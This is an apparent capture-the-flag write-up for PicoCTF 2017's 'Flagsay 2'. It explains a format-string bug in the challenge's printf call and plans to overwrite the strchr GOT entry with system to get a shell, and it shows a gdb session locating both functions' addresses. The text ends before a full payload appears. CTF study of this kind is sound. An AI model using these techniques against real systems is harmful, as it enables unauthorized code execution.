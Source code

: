 # Flagsay 2

```
Apparently I messed up using system(). I'm pretty sure this one is secure though! I hope flagsay-2 is just as exhilarating as the the first one! Source. Connect on shell2017.picoctf.com:29932.
HINTS
The buffer isn't on the stack, so you can't use your own pointers. Is there another way to get a pointer?
Make sure you know about using hn and $ in format strings
```

This one is another format string attack. The vulnerability lies in the main function when the flag is printed.

```C
int main(int argc, char **argv){
        ...
        while(1){
                strncpy(tempFlag, flag, flagSize);
                tempFlag[flagSize-1] = '\x0';
                fgets(input, flagSize, stdin);
                char * temp = strchr(input, '\n');
                if(temp != NULL){
                        temp[0] = '\x0';
                }

                placeInFlag(tempFlag, input);
                printf(tempFlag);
        }
        ...
}
```

A user defined string should always be printed via ```%s```. We can use this to read and write arbitrary values to and from the stack. We will attempt a similar attack to the one we enacted in [Config Console](https://github.com/MeadeRobert/PicoCTF2017/tree/master/binary_exploitation/level3). This time, however, we will overwrite the GOT table entry for ```strchr``` with that of system so that our input can be used to call ```system("/bin/sh")```.

First we need to find the offset between strchr and system. We can do this using gdb.

```
$ gdb flagsay-2 -q
Reading symbols from flagsay-2...(no debugging symbols found)...done.
(gdb) r
Starting program: /home/robbie/PicoCTF2017/binary_exploitation/level4/flagsay_2/flagsay-2
^C
Program received signal SIGINT, Interrupt.
0xf7fd9d70 in __kernel_vsyscall ()
(gdb) p system
$1 = {<text variable, no debug info>} 0xf7e5a3e0 <system>
(gdb) p strchr
$2 = {<text gnu-indirect-function variable, no debug info>} 0xf7e957f0 <strchr>
(gdb)
```
